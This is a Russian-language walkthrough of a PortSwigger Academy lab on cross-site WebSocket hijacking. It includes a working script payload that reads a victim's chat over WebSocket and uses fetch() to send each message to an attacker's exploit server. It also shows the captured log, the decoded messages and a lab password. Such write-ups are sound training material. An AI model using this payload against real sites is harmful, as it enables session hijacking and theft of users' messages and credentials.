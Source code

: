 откроем уязвимый ресурс

перейдем на вкладку `Live chat`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/1.png)

Полное взаимодействие атаки будет выглядеть следующим образом
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/3.png)

Найдем в `Proxy` -> `HTTP history` `GET - запрос`, инициирующий соединение с сервером
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/2.png)

Перейдем в `Exploit server `

и сконфигурироуем данный `payload`
```
<script>
    var ws = new WebSocket('wss://0a25008e048f15a0814ef770009e005a.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch("https://exploit-0a8800d804ac15dd8195f6e901c7001a.exploit-server.net/exploit?message=" +btoa(event.data));
    };
</script>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/4.png)


Нажмем `Store` - > `Deliver exploit to victim`
и перейдем в `Access log`

и увидим следующие строки
```
10.0.4.21       2024-05-10 16:24:49 +0000 "GET /exploit?message=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6IkhlbGxvLCBob3cgY2FuIEkgaGVscD8ifQ== HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
10.0.4.21       2024-05-10 16:24:49 +0000 "GET /exploit?message=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IkkgZm9yZ290IG15IHBhc3N3b3JkIn0= HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
10.0.4.21       2024-05-10 16:24:49 +0000 "GET /exploit?message=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ik5vIHByb2JsZW0gY2FybG9zLCBpdCZhcG9zO3MgM2phZ3F0a3R4cW5oOWtkNGlvNnoifQ== HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
10.0.4.21       2024-05-10 16:24:49 +0000 "GET /exploit?message=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IlRoYW5rcywgSSBob3BlIHRoaXMgZG9lc24mYXBvczt0IGNvbWUgYmFjayB0byBiaXRlIG1lISJ9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
10.0.4.21       2024-05-10 16:24:49 +0000 "GET /exploit?message=eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/5.png)

Декодировав, получим сообщения
```
{"user":"Hal Pline","content":"Hello, how can I help?"}

{"user":"You","content":"I forgot my password"}

{"user":"Hal Pline","content":"No problem carlos, it&apos;s 3jagqtktxqnh9kd4io6z"}

{"user":"You","content":"Thanks, I hope this doesn&apos;t come back to bite me!"}

{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/6.png)

Зайдем под кредами 
```
carlos:3jagqtktxqnh9kd4io6z
```
и получим сообщение об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/7.png)
